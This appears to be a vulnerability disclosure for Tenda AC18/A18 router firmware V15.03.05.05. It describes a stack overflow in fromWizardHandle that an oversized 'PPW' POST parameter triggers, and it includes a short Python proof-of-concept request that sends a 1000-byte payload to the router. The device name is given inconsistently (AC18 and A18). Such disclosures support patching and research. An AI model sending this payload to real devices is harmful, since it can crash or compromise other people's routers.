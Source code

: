 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda A18 V15.03.05.05 firmware has a stack overflow vulnerability located in the `fromWizardHandle` function. This function accepts the `WANT`and `WANS` parameter from a POST request. Within `case 2`, this function accepts the `PPW` parameter from a POST request, which is assigned to `decodePwd(pppoepwd, decode_pwd);`. However, since the user has control over the input of `PPW`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `PPW` can exceed the capacity of the `decode_pwd` array, thus triggering this security vulnerability.

![image-20240409144436622](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144436622.png)

![image-20240409144543183](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144543183.png)

![image-20240409144601905](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144601905.png)

![image-20240409144618132](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144618132.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WizardHandle"
payload = b"a"*1000

data = {"WANS":"0","WANT":"2","PPW": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102339559](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102339559.png)